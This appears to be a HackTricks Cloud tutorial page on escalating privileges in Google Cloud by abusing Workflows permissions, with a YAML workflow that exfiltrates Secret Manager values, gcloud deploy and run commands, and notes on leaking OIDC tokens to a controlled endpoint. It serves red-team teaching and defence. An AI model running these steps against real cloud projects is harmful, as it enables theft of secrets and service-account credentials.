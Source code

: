 # GCP - Workflows Privesc

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## Workflows

Basic Information:

{% content-ref url="../gcp-services/gcp-workflows-enum.md" %}
[gcp-workflows-enum.md](../gcp-services/gcp-workflows-enum.md)
{% endcontent-ref %}

### `workflows.workflows.create`, `iam.serviceAccounts.ActAs`, `workflows.executions.create`, (`workflows.workflows.get`, `workflows.operations.get`)

Afaik it's not possible to get a shell with access to the metadata endpoint containing the SA credentials of the SA attacked to a Workflow. However, it's possible to abuse the permissions of the SA by adding the actions to perform inside the Workflow.

It's possible to find the documentation of the connectors. For example, this is the [**page of the Secretmanager connector**](https://cloud.google.com/workflows/docs/reference/googleapis/secretmanager/Overview)**.** In the side bar it's possible to find several other connectors.

And here you can find an example of a connector that prints a secret:

```yaml
main:
    params: [input]
    steps:
    - access_string_secret:
        call: googleapis.secretmanager.v1.projects.secrets.versions.accessString
        args:
            secret_id: secret_name
            version: 1
            project_id: project-id
        result: str_secret
    - returnOutput:
            return: '${str_secret}'
```

Update from the CLI:

```bash
gcloud workflows deploy <workflow-name> \
    --service-account=email@SA \
    --source=/path/to/config.yaml \
    --location us-central1
```

If you don't have web access it's possible to trigger and see the execution of a Workflow with:

{% code overflow="wrap" %}
```bash
# Run execution with output
gcloud workflows run <workflow-name> --location us-central1

# Run execution without output
gcloud workflows execute <workflow-name> --location us-central1

# List executions
gcloud workflows executions list <workflow-name>

# Get execution info and output
gcloud workflows executions describe projects/<proj-number>/locations/<location>/workflows/<workflow-name>/executions/<execution-id>
```
{% endcode %}

{% hint style="danger" %}
You can also check the output of previous executions to look for sensitive information
{% endhint %}

Note that even if you get an error like `PERMISSION_DENIED: Permission 'workflows.operations.get' denied on...` because you don't have that permission, the workflow has been generated.

### Leak OIDC token (and OAuth?)

According [**to the docs**](https://cloud.google.com/workflows/docs/authenticate-from-workflow) it's possible to use workflow steps that will send an HTTP request with the OAuth or OIDC token. However, just like in the case of [Cloud Scheduler](gcp-cloudscheduler-privesc.md), the HTTP request with the Oauth token must be to the host `.googleapis.com`.

{% hint style="danger" %}
Therefore, it's **possible to leak the OIDC token by indicating a HTTP endpoint** controlled by the user but to leak the **OAuth** token you would **need a bypass** for that protection. However, you are still able to **contact any GCP api to perform actions on behalf the SA** using either connectors or HTTP requests with the OAuth token.
{% endhint %}

#### Oauth

{% code overflow="wrap" %}
```yaml
    - step_A:
      call: http.post
      args:
          url: https://compute.googleapis.com/compute/v1/projects/myproject1234/zones/us-central1-b/instances/myvm001/stop
          auth:
              type: OAuth2
              scopes: OAUTH_SCOPE
```
{% endcode %}

#### OIDC

```yaml
    - step_A:
      call: http.get
      args:
          url: https://us-central1-project.cloudfunctions.net/functionA
          query:
              firstNumber: 4
              secondNumber: 6
              operation: sum
          auth:
              type: OIDC
              audience: OIDC_AUDIENCE
```

### `workflows.workflows.update` ...

With this permission instead of `workflows.workflows.create` it's possible to update an already existing workflow and perform the same attacks.

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
